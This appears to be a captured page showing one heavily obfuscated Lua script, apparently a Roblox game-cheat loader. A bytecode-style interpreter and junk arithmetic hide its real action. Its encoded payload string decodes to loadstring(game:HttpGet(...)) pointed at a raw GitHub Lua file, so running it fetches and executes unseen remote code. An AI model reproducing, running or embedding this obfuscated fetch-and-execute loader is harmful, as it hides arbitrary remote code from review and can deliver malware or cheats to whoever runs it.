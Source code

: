 --[[
Sarapmotalagakert
]]--

local v0=tonumber;local v1=string.byte;local v2=string.char;local v3=string.sub;local v4=string.gsub;local v5=string.rep;local v6=table.concat;local v7=table.insert;local v8=math.ldexp;local v9=getfenv or function() return _ENV;end ;local v10=setmetatable;local v11=pcall;local v12=select;local v13=unpack or table.unpack ;local v14=tonumber;local function v15(v16,v17,...) local v18=1;local v19;v16=v4(v3(v16,5),"..",function(v30) if (v1(v30,2)==81) then v19=v0(v3(v30,1,1));return "";else local v81=0;local v82;while true do if (v81==0) then v82=v2(v0(v30,16));if v19 then local v107=v5(v82,v19);v19=nil;return v107;else return v82;end break;end end end end);local function v20(v31,v32,v33) if v33 then local v83=0 -0 ;local v84;while true do if (v83==(0 -0)) then v84=(v31/(2^(v32-1)))%((3 -1)^(((v33-(2 -1)) -(v32-(620 -((2192 -(1523 + 114)) + 64)))) + (932 -(857 + 74)))) ;return v84-(v84%(569 -(330 + 37 + 201))) ;end end else local v85=(929 -(214 + 713))^(v32-((1 -0) + 0)) ;return (((v31%(v85 + v85))>=v85) and (1 + 0)) or (877 -(282 + 595)) ;end end local function v21() local v34=v1(v16,v18,v18);v18=v18 + 1 ;return v34;end local function v22() local v35,v36=v1(v16,v18,v18 + 2 );v18=v18 + (1067 -(68 + 997)) ;return (v36 * (1526 -(226 + 1044))) + v35 ;end local function v23() local v37=0 -0 ;local v38;local v39;local v40;local v41;while true do if (v37==(118 -(32 + (435 -(87 + 263))))) then return (v41 * (16441815 + (335581 -(67 + 113)))) + (v40 * (14533 + 51003)) + (v39 * (1213 -(892 + 65))) + v38 ;end if (v37==(0 -0)) then v38,v39,v40,v41=v1(v16,v18,v18 + (5 -(2 + 0)) );v18=v18 + 4 ;v37=1 -0 ;end end end local function v24() local v42=0 -0 ;local v43;local v44;local v45;local v46;local v47;local v48;while true do if (v42==(2 -1)) then v45=1 + 0 ;v46=(v20(v44,439 -(145 + 293) ,450 -(44 + 386) ) * ((1488 -(998 + 488))^(127 -(2008 -(1789 + 124))))) + v43 ;v42=954 -(802 + 150) ;end if (v42==(7 -4)) then if (v47==(0 -0)) then if (v46==(0 + 0)) then return v48 * ((1763 -(745 + 21)) -(915 + 82)) ;else v47=2 -1 ;v45=0 + 0 + 0 ;end elseif (v47==(1202 + 845)) then return ((v46==((0 -0) -0)) and (v48 * ((1188 -(1069 + 118))/(0 -0)))) or (v48 * NaN) ;end return v8(v48,v47-(2237 -1214) ) * (v45 + (v46/((1 + 1)^(92 -40)))) ;end if (v42==((3479 -2592) -(261 + 624))) then v47=v20(v44,21 + 0 ,822 -(368 + 423) );v48=((v20(v44,100 -68 )==((1 + 18) -(10 + 8))) and  -(3 -2)) or (3 -2) ;v42=445 -(416 + 26) ;end if (v42==((0 + 0) -0)) then v43=v23();v44=v23();v42=1748 -(760 + 987) ;end end end local function v25(v49) local v50=1055 -(87 + 968) ;local v51;local v52;while true do if (v50==(4 -3)) then v51=v3(v16,v18,(v18 + v49) -((1 -0) + 0) );v18=v18 + v49 ;v50=2;end if (v50==3) then return v6(v52);end if (v50==2) then v52={};for v91=2 -1 , #v51 do v52[v91]=v2(v1(v3(v51,v91,v91)));end v50=3;end if (v50==(0 -0)) then v51=nil;if  not v49 then local v100=1413 -(447 + 277 + 689) ;while true do if (((0 -0) -0)==v100) then v49=v23();if (v49==(1817 -(1703 + (128 -(9 + 5))))) then return "";end break;end end end v50=(1078 -(85 + 291)) -(376 + 325) ;end end end local v26=v23;local function v27(...) return {...},v12("#",...);end local function v28() local v53=(function() return 0;end)();local v54=(function() return;end)();local v55=(function() return;end)();local v56=(function() return;end)();local v57=(function() return;end)();local v58=(function() return;end)();local v59=(function() return;end)();local v60=(function() return;end)();while true do if (v53==(1 -0)) then v57=(function() return {};end)();v58=(function() return {v55,v56,nil,v57};end)();v59=(function() return v23();end)();v53=(function() return 2;end)();end if (v53==2) then local v88=(function() return 0;end)();local v89=(function() return;end)();while true do if (v88==0) then v89=(function() return 0;end)();while true do if (v89~=1) then else v58[ #"xnx"]=(function() return v21();end)();v53=(function() return 2 + 1 ;end)();break;end if (v89==0) then local v113=(function() return 0 -0 ;end)();while true do if (v113~=1) then else v89=(function() return 1;end)();break;end if (v113~=(341 -(218 + 123))) then else v60=(function() return {};end)();for v154= #"|",v59 do local v155=(function() return 0;end)();local v156=(function() return;end)();local v157=(function() return;end)();while true do if (v155~=(1582 -(1535 + 46))) then else if (v156== #".") then v157=(function() return v21()~=(0 + 0) ;end)();elseif (v156==2) then v157=(function() return v24();end)();elseif (v156== #"91(") then v157=(function() return v25();end)();end v60[v154]=(function() return v157;end)();break;end if ((0 + 0)==v155) then local v174=(function() return 560 -(306 + 254) ;end)();while true do if (v174==(1 + 0)) then v155=(function() return 1;end)();break;end if ((0 -0)~=v174) then else v156=(function() return v21();end)();v157=(function() return nil;end)();v174=(function() return 1468 -(899 + 568) ;end)();end end end end end v113=(function() return 1 + 0 ;end)();end end end end break;end end end if (v53==(0 -0)) then local v90=(function() return 0;end)();while true do if (v90==1) then v56=(function() return {};end)();v53=(function() return 604 -(268 + 335) ;end)();break;end if (v90==(290 -(60 + 230))) then v54=(function() return function(v108,v109,v110) local v111=(function() return 572 -(426 + 146) ;end)();while true do if (v111==0) then local v118=(function() return 0;end)();while true do if (v118~=(0 + 0)) then else local v163=(function() return 1456 -(282 + 1174) ;end)();while true do if (v163~=0) then else v108[v109-#"/" ]=(function() return v110();end)();return v108,v109,v110;end end end end end end end;end)();v55=(function() return {};end)();v90=(function() return 812 -(569 + 242) ;end)();end end end if (v53~=3) then else for v93= #".",v23() do local v94=(function() return v21();end)();if (v20(v94, #".", #">")==0) then local v103=(function() return 0;end)();local v104=(function() return;end)();local v105=(function() return;end)();local v106=(function() return;end)();while true do if (v103~=(2 -1)) then else local v114=(function() return 0 + 0 ;end)();while true do if (v114==(1025 -(706 + 318))) then v103=(function() return 1253 -(721 + 530) ;end)();break;end if (v114==(1271 -(945 + 326))) then v106=(function() return {v22(),v22(),nil,nil};end)();if (v104==(0 -0)) then local v164=(function() return 0;end)();local v165=(function() return;end)();while true do if ((0 + 0)~=v164) then else v165=(function() return 0;end)();while true do if (v165~=0) then else v106[ #"91("]=(function() return v22();end)();v106[ #"http"]=(function() return v22();end)();break;end end break;end end elseif (v104== #"|") then v106[ #"-19"]=(function() return v23();end)();elseif (v104==(702 -(271 + 429))) then v106[ #"91("]=(function() return v23() -(2^(15 + 1)) ;end)();elseif (v104~= #"91(") then else local v185=(function() return 0;end)();local v186=(function() return;end)();while true do if (v185==0) then v186=(function() return 0;end)();while true do if (v186~=(1500 -(1408 + 92))) then else v106[ #"19("]=(function() return v23() -((1088 -(461 + 625))^16) ;end)();v106[ #"0313"]=(function() return v22();end)();break;end end break;end end end v114=(function() return 1;end)();end end end if (v103~=(1290 -(993 + 295))) then else if (v20(v105, #",", #"\\")== #"}") then v106[1 + 1 ]=(function() return v60[v106[1173 -(418 + 753) ]];end)();end if (v20(v105,1 + 1 ,1 + 1 )~= #"]") then else v106[ #"91("]=(function() return v60[v106[ #"nil"]];end)();end v103=(function() return 1 + 2 ;end)();end if (v103==(0 + 0)) then local v115=(function() return 529 -(406 + 123) ;end)();local v116=(function() return;end)();while true do if (v115~=0) then else v116=(function() return 0;end)();while true do if (v116==1) then v103=(function() return 1770 -(1749 + 20) ;end)();break;end if (v116==(0 + 0)) then local v167=(function() return 0;end)();while true do if (v167==1) then v116=(function() return 1;end)();break;end if (v167~=(1322 -(1249 + 73))) then else v104=(function() return v20(v94,1 + 1 , #"-19");end)();v105=(function() return v20(v94, #"?id=",1151 -(466 + 679) );end)();v167=(function() return 1;end)();end end end end break;end end end if (v103~=(6 -3)) then else if (v20(v105, #"asd", #"19(")~= #"|") then else v106[ #".com"]=(function() return v60[v106[ #"xnxx"]];end)();end v55[v93]=(function() return v106;end)();break;end end end end for v95= #"/",v23() do v56,v95,v28=(function() return v54(v56,v95,v28);end)();end return v58;end end end local function v29(v61,v62,v63) local v64=v61[2 -1 ];local v65=v61[1902 -(106 + 1794) ];local v66=v61[3];return function(...) local v67=v64;local v68=v65;local v69=v66;local v70=v27;local v71=1;local v72= -1;local v73={};local v74={...};local v75=v12("#",...) -1 ;local v76={};local v77={};for v86=0 + 0 ,v75 do if (v86>=v69) then v73[v86-v69 ]=v74[v86 + (2 -1) ];else v77[v86]=v74[v86 + (2 -1) ];end end local v78=(v75-v69) + (115 -(4 + 110)) ;local v79;local v80;while true do local v87=584 -(57 + 527) ;while true do if ((4844>2253) and (v87==(1427 -((1370 -(797 + 532)) + 1386)))) then v79=v67[v71];v80=v79[104 -(17 + 86) ];v87=1 + 0 ;end if ((452==452) and (v87==(1 -0))) then if ((v80<=(8 -5)) or (3755<915)) then if (v80<=(167 -(122 + 44))) then if (v80>0) then v77[v79[2 -0 ]]=v63[v79[3]];else v77[v79[2]]={};end elseif (v80==(6 -4)) then local v125=0 + 0 ;local v126;local v127;local v128;local v129;while true do if ((v125==(1 + 1)) or (4557<2087)) then for v168=v126,v72 do v129=v129 + (1 -0) ;v77[v168]=v127[v129];end break;end if (v125==0) then v126=v79[67 -(30 + 35) ];v127,v128=v70(v77[v126](v13(v77,v126 + 1 + 0 + 0 ,v79[1260 -(1043 + 214) ])));v125=3 -2 ;end if (v125==(1213 -(323 + 889))) then v72=(v128 + v126) -(2 -1) ;v129=580 -(361 + 219) ;v125=2;end end else v77[v79[322 -(18 + 35 + 267) ]]();end elseif (v80<=((4 -2) + 3)) then if ((3946>3743) and (v80>(417 -(15 + 398)))) then do return;end else v77[v79[984 -((1220 -(373 + 829)) + 964) ]]=v79[(742 -(476 + 255)) -8 ];end elseif (v80<=6) then local v132;local v133,v134;local v135;local v136;v77[v79[2]]={};v71=v71 + 1 ;v79=v67[v71];v77[v79[2 + 0 ]]=v63[v79[2 + 1 ]];v71=v71 + (851 -(20 + 830)) ;v79=v67[v71];v77[v79[2 + (1130 -(369 + 761)) ]]=v63[v79[129 -(116 + 10) ]];v71=v71 + 1 + 0 ;v79=v67[v71];v136=v79[740 -(542 + 196) ];v135=v77[v79[6 -3 ]];v77[v136 + 1 + 0 ]=v135;v77[v136]=v135[v79[3 + 1 ]];v71=v71 + 1 + 0 ;v79=v67[v71];v77[v79[4 -2 ]]=v79[7 -(3 + 1) ];v71=v71 + 1 ;v79=v67[v71];v136=v79[1553 -((2044 -918) + (805 -380)) ];v133,v134=v70(v77[v136](v13(v77,v136 + (406 -(118 + 287)) ,v79[(249 -(64 + 174)) -8 ])));v72=(v134 + v136) -(1122 -(118 + 1003)) ;v132=(0 + 0) -0 ;for v152=v136,v72 do local v153=377 -(142 + 235) ;while true do if (v153==(0 -0)) then v132=v132 + 1 ;v77[v152]=v133[v132];break;end end end v71=v71 + 1 + 0 ;v79=v67[v71];v136=v79[2];v77[v136]=v77[v136](v13(v77,v136 + (978 -(553 + 424)) ,v72));v71=v71 + (1 -0) ;v79=v67[v71];v77[v79[2 + 0 ]]();v71=v71 + 1 + 0 ;v79=v67[v71];do return;end elseif ((v80>(5 + 2)) or (1335>=3306)) then local v158=0 + 0 ;local v159;local v160;while true do if ((3874==3874) and (v158==(1 + 0))) then v77[v159 + (2 -1) ]=v160;v77[v159]=v160[v79[(16 -5) -7 ]];break;end if ((v158==(0 -0)) or (1938>4935)) then v159=v79[1 + 1 ];v160=v77[v79[14 -11 ]];v158=1;end end else local v161=v79[(1091 -(144 + 192)) -((455 -(42 + 174)) + 514) ];v77[v161]=v77[v161](v13(v77,v161 + 1 ,v72));end v71=v71 + 1 + 0 + 0 ;break;end end end end;end return v29(v28(),{},v17)(...);end return v15("LOL!043Q00030A3Q006C6F6164737472696E6703043Q0067616D6503073Q00482Q747047657403553Q00682Q7470733A2Q2F7261772E67697468756275736572636F6E74656E742E636F6D2F76756475796E677579656E38392F5465702F726566732F68656164732F6D61696E2F253233486972754B616974756E2E6C756100094Q00067Q00122Q000100013Q00122Q000200023Q00202Q00020002000300122Q000400046Q000200046Q00013Q00024Q0001000100016Q00017Q00",v9(),...);
